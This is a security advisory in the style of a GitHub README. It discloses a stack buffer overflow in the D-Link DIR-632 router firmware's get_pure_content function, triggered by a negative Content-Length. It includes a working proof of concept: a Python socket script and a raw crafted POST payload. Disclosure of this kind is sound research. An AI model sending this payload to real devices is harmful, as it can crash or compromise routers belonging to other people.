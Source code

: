 # Overview
Details of the vulnerability found in the dlink router dir-632.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-632    |  fw103    | httpsfiles.dlink.com.auproductsDIR-632REV_AFirmwareFirmware_v1.03b08DIR632A1_FW103B08.bin   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `get_pure_content` at offset 00424E88, where the `safe_fread` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- This vulnerability occurs when the program parses the `Content` field of a user's POST request. The program only checks whether the `Content-Length` exceeds `1200` bytes, and if it does, it limits the read to `1200` bytes.

- However, if the `Content-Length` is crafted as a negative value, it will be interpreted as a large unsigned integer due to the third parameter of the safe_fread function being of type `unsigned int`. This causes an overflow during data reading, which can trigger a buffer overflow vulnerability.


![second](./assets/2.png)
![4](./assets/4.png)




# POC
## python script
```python
import socket

host = "172.17.0.177"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /xxxx
Content-Length: -3

WRwzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzzy<wlan_wpa_group����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������key_rekey_time>%s</wlan_wpa_groupkey_rekey_time>wzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywz�wzywzzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywz
SOAPACqION:HNAP1www.cam
```

# Vulnerability Verification Screenshot
##  dir-632
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
